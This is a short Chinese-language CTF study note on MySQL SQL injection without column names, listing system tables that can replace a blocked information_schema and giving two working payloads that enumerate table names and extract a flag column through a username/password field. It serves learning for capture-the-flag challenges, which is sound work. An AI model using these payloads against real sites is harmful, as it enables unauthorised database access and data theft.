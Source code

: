 # 知识点
### 无列名注入
[CTF|mysql之无列名注入](https://zhuanlan.zhihu.com/p/98206699)<br />[SQL无列名注入](https://err0r.top/article/mardasctf/)
### mysql统计
[概述MySQL统计信息_Mysql_脚本之家](https://www.jb51.net/article/134678.htm)
### 能够代替information_schema.tables的表
mysql.innodb_table_stats<br />mysql.innodb_index_stats<br />sys.schema_auto_increment_columns<br />sys.x$schema_flattened_keys<br />sys.schema_table_statistics_with_buffer
# 思路
如果information_schema被禁，可以尝试使用表mysql.innodb_table_stats和mysql.innodb_index_stats或者sys.schema_auto_increment_columns
```plsql
# 通过mysql.innodb_table_stats获取表名
password=\&username=,username=(select group_concat(table_name) from mysql.innodb_table_stats)%23
# 无列名注入获取flag
password=\&username=,username=(select `2` from (select 1,2,3 union select * from flag23a1)a limit 1,1)%23
```
[SQL无列名注入 _ Err0r的小站.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1688305860911-7a12f6ef-de5e-4c4f-8a22-6a61b5ba1ba8.pdf)
